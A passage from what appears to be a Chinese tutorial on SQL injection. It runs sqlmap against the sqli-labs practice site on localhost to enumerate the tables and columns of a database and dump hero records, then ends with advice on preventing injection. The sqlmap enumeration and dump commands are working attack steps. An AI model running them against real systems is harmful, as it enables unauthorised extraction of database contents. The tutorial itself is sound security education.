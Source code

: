 ![](https://static001.geekbang.org/resource/image/b9/53/b9f9b624e863cd507c1cb1c4b1fc1853.png?wh=1284*1125)

### 查询wucai数据库中所有数据表

当我们知道DBMS中存在的某个数据库名称时，可以使用-D参数对数据库进行指定，然后使用 `--tables` 参数显示出所有的数据表名称。比如我们想要查看wucai数据库中都有哪些数据表，使用：

```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 -D wucai --tables

```

![](https://static001.geekbang.org/resource/image/11/16/119174ae050e5a27e70ebc5537d7b116.png?wh=525*750)

### 查询heros数据表中所有字段名称

我们也可以对指定的数据表，比如heros表进行所有字段名称的查询，使用 `-D` 指定数据库名称， `-T` 指定数据表名称， `--columns` 对所有字段名称进行查询，命令如下：

```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" --threads=5 -D wucai -T heros --columns

```

![](https://static001.geekbang.org/resource/image/68/6d/681d394e31a6ac44ac85f2349282886d.png?wh=913*1613)

### 查询heros数据表中的英雄信息

当我们了解了数据表中的字段之后，就可以对指定字段进行查询，使用 `-C` 参数进行指定。比如我们想要查询heros数据表中的 `id`、 `name` 和 `hp_max` 字段的取值，这里我们不采用多线程的方式，具体命令如下：

```
python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" -D wucai -T heros -C id,name,hp_max --dump

```

![](https://static001.geekbang.org/resource/image/ce/33/ced56f2e12f6c1afccadac6be231a533.png?wh=750*1100)

完整的结果一共包括69个英雄信息都显示出来了，这里我只截取了部分的英雄结果。

## 总结

在今天的内容中，我使用了sqli-labs注入平台作为实验数据，使用了SQLmap工具自动完成SQL注入。SQL注入的方法还有很多，我们今天讲解的只是其中一个方式。你如果对SQL注入感兴趣，也可以对sqli-labs中其他例子进行学习，了解更多SQL注入的方法。

在这个过程中，最主要的是理解SQL注入的原理。在日常工作中，我们需要对用户提交的内容进行验证，以防止SQL注入。当然很多时候我们都在使用编程框架，这些框架已经极大地降低了SQL注入的风险，但是只要有SQL拼接的地方，这种风险就可能存在。

总之，代码规范性对于Web安全来说非常重要，尽量不要采用直接拼接的方式进行查询。同时在Web上线之后，还需要将生产环境中的错误提示信息关闭，以减少被SQL注入的风险。此外我们也可以采用第三方的工具，比如SQLmap来对Web应用进行检测，以增强Web安全性。

你不妨思考下，为什么开发人员的代码规范对于Web安全来说非常重要？以及都有哪些方式可以防止SQL注入呢？

欢迎你在评论区写下你的思考，也欢迎把这篇文章分享给你的朋友或者同事，一起交流一下。